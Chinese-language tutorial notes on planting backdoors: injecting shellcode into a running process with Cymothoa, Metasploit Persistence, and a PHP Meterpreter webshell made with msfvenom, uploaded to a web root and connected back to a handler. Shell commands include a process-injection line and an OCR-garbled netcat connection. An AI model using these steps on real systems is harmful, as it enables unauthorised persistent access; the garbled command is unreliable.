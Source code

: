 ## 操作系统后门
### Cymothoa后门
Cymothoa原理是将ShellCode注入现有进程(即插进程).那么也就是说当Cymothoa宿主停止执行的时候,Cymothoa也会自动停止.
1. 选择 PID 为 982 的进程为宿主进程,选用第一类 ShellCode,指定 Pay load服务端口为4444
```shell
cymothoa -p 982 -s 1 -y 4444
```
2. 连接目标主机的后门
```shell
Ne -nvv 192.168 . 31.247 4444
```

### Persistence 后门
Persistence是一款使用安装自启动方式的持久性后门程序
1. 查看所有命令
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/9q74dcec3qt.png" width="600px" />

2. 创建后门
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/e2clc8dzkae.png" width="600px" />

参数含义:
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/clzrvb4jo8k.png" width="600px" />


## WEB后门

### 常见工具
windows系统:
1. 中国菜刀(Cknife)
2. 中国蚁剑

Kali系统:
1. Weevely(只支持php)

### Meterpreter 后门
使用 PHP meterpreter 这个payload创建一个木马.
步骤:
1. 使用 msfvenom创建一个webshell.php 。
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/irpnx3wyfps.png" width="600px" />

2. 上传webshell.php 到目标服务器 。
比如:linux就可以复制到/var/www/html目录下
3. 运行Metasploit multi-handler开始监昕 。
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/qth8tp0wn6.png" width="400px" />
4. 访问 webshell. php 页面。
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/ep6tzdh0pl.png" width="400px" />
5. 获得反弹的Metasploit Shell 。
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/v3y8tysitt.png" width="400px" />
